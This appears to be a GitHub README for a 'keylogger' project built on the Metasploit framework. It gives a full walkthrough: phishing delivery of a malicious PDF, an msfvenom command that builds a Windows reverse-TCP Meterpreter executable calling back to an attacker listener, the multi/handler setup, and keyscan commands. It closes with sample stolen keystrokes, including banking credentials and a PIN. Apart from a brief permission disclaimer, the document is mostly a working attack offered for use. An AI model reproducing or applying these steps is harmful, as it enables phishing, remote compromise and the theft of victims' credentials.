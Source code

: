 # Building a keylogger using Metasploit framework
# $${\color{red}Welcome \space \color{lightblue}To \space \color{orange}Seyigate}$$

Help suport this project!!!

<a href="https://www.buymeacoffee.com/seyiphysica" target="_blank"><img src="https://cdn.buymeacoffee.com/buttons/v2/default-yellow.png" alt="Buy Me A Coffee" style="height: 60px !important;width: 217px !important;" ></a>

This project should be only take place in a control environment and written permission must be given by the system owner.
Seyigate will not be liable to any destructive occurrence in the network and system infrastructure. 

Check out below to learn how to use the metasploit framework. This project was explained in a simplex term and proof of concept included, however they work great! Feel free to fork and improve it if you want. Be sure to check out the [issues](https://github.com/Seyigate/gate_Keylogger/issues) or [pull requests](https://github.com/Seyigate/gate_Keylogger/pulls) to see if your problem has been fixed, or to help out others.


**Introduction** 

This project created a Keyloggerusing Metasploit framework, uses payload as mode of operation.

A payload is a piece of code that executes when hackers exploit a vulnerability. In other words, it’s an exploit module. It’s usually composed of a few commands that will run on the targeted operating system to steal data and other malicious acts.

Keyloggers are a particularly insidious type of program that can record and steal consecutive keystrokes (and much more) that the user enters on a device. 

The term keylogger, or “keystroke logger,” is self-explanatory: Software that logs what you type on your keyboard. However, keyloggers can also enable you to eavesdrop on you, watch you on your system camera, or listen over your smartphone’s microphone.

It’s not unlikely to find harmful payloads in an email attachment. One of the most effective ways to attack or compromise targeted system infrastructure is via phishing email 

**send emails with an attached .pdf file containing a malicious payload <sup>**keylogger**</sup> that will install a backdoor.**

If the victim downloads the file and double-clicks to open it, which will triggers the code in the background. This allows for serving a shell to access the victim’s computer when the victim sends a TCP connection.

Finally, the threat actor will be able to use payloads installed on the targeted machine to record and steal consecutive keystrokes (and much more) that the user enters on a device such as bank user credentials and lot more. 


# **Content**
* [Building the keylogger using Metasploit-framework](https://github.com/Seyigate/gate_Keylogger/blob/main/Building%20the%20keylogger%20using%20Metasploit-framework)

* ## gate_keylogger
The aim is to create a payload called Meterpreter using Inbuilt Metasploit-framework see- [metasploit-unleashed](https://www.offsec.com/metasploit-unleashed/meterpreter-basics/)

Metasploit is handy for generating a reverse shell. The following command generates a reverse TCP shell with the Metasploit framework:
It generate a Windows reverse shell executable that will connect back to us on port 4444.
```
 ┌──(kali㉿kali)-[~]
└─$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.50.2 LPORT=4444 -f exe -o keyshell.exe
```

For the purpose of this project, A listener interactive shell will be initiated, this will allows for serving a shell to access
the targeted machine when the victim sends a TCP connection to record and steal consecutive keystrokes that the user enters on a device.

```
  ┌──(kali㉿kali)-[~]
    └─$ msfconsole
```

In msfconsole, select an exploit module, which is exploit/multi/handler
multi/handler exploit is a stub that handles exploits launched outside of the framework.
it is also a remote exploit module, which can also engage multiple hosts.

```
  msf6 > use exploit/multi/handler
  msf6 exploit(multi/handler) >show info
```
 When using the exploit/multi/handler module, we still need to tell it which payload to expect so we configure it to have the same settings as the executable we generated.
 
```
  msf6 exploit(multi/handler) > set payload windows/shell/reverse_tcp
  msf6 exploit(multi/handler) > show options
```

 Then configure the parameter appropriately
 
```
 msf6 exploit(multi/handler) > set LHOST 192.168.50.2
 msf6 exploit(multi/handler) > set LPORT 4444
```
Now that we have everything set up and ready to go, 
We run exploit for the multi/handler and execute our generated executable on the victim. 
The multi/handler handles the exploit for us and presents us our shell.

```
    msf6 exploit(handler) > exploit
```
The keyscan_start command starts the keylogging feature on the remote machine.
    Starting the keystroke sniffer ...
```
 meterpreter> keyscan_start    
```
 Starting the keystroke sniffer ...
 The keyscan_dump command is a keylogger feature. You must use the keyscan_start command before using keyscan_dump
   
```
  meterpreter> keyscan_dump
```
 Dumping capture keystrokes ...

 See the capturing kestrokes below

 <SHIFT> www.baclaysbank.co.uk
 
 <SHIFT>yinkajah@gmail.com
 
 <CR> R2jshb!@(*&^HB
 
 <CR>pin: 126782
 
 snip....

 For more details see *[Building the keylogger using Metasploit-framework](https://github.com/Seyigate/gate_Keylogger/blob/main/Building%20the%20keylogger%20using%20Metasploit-framework)*


   




  



